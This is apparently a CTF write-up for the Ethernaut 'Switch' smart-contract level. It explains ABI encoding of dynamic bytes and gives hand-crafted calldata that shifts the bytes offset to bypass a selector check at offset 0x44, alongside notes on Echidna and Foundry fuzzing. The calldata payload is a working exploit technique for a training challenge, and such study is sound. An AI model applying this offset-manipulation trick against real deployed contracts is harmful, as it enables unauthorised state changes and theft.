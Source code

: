 # Switch

[Switch](https://ethernaut.openzeppelin.com/level/0xb6793dA57738f247cf8EA28d1b18C6E560B3903C)

_flip the switch_


1. When dealing with dynamic types calldata encodes an argument as follows: <BR />
    ```
    |--- x-bytes ---| |-------32-bytes-------| |--- y-bytes ---| |- z-bytes --|
    <other arguments> <Offset of Dynamic type> <other arguments> <Dynamic type>
    ```

1. An argument of type bytes is then encoded as a length prefixed array
    ```
    |-------------------- z-bytes ----------------------|
    <------------------ Dynamic type ------------------->

    |- 32-bytes -| |- packed bytes rounded to 32-bytes -|
    <-- length --> <---------- byte elements ----------->
    ```

1. Our goal is to call `turnSwitchOn()` by passing its selector to `flipSwitch(bytes)` bytes parameter.
    Specifically the selector must be set within the first 4-bytes of the `flipSwitch` argument.

1. The standard way to encode the bytes argument for such a function signature is:
    ```
    Selector:            00 | 30c13ade
    Dynamic Type Offset: 04 | 0000000000000000000000000000000000000000000000000000000000000020
    Number of Bytes:     24 | 0000000000000000000000000000000000000000000000000000000000000004
    Four data bytes:     44 | 20606e1500000000000000000000000000000000000000000000000000000000
    ```

1. The `Switch` verifies that the calldata at offset 68 (0x44) is the selector for the function `turnSwitchOff()` 
   and our solution must satisfy this condition.

1. The solution must simply force the bytes argument to start after the `turnSwitchOff()` selector.
    ```
    Selector:            00 | 30c13ade
    Dynamic Type Offset: 04 | 0000000000000000000000000000000000000000000000000000000000000060
    Unused Bytes:        24 | 0000000000000000000000000000000000000000000000000000000000000000
    Unused Bytes:        44 | 20606e1500000000000000000000000000000000000000000000000000000000
    Number of Bytes:     64 | 0000000000000000000000000000000000000000000000000000000000000004
    Four data bytes:     84 | 76227e1200000000000000000000000000000000000000000000000000000000
    ```


<BR />

## Live Attack

```BASH
./attackDo.sh
```

<BR />

## Vulnerability Testing Tools

Testing Invariant: _Switch should never be on._


Neither [Echidna](./src/echidna/EchidnaFuzz.sol) nor [Foundry](./test/InvariantTest.t.sol) fuzzing manage to generate the magic value that turns the switch on. 

Interestingly Foundry manages to break the [invariant](./test/InvariantTest.t.sol) by doing something that is impossible in real-live. It sends transactions to the `Switch` contract where the sender has the `Switch` contract address. This was disabled using: <BR />

```JS
excludeSender(address(singlePole));
```

<BR />


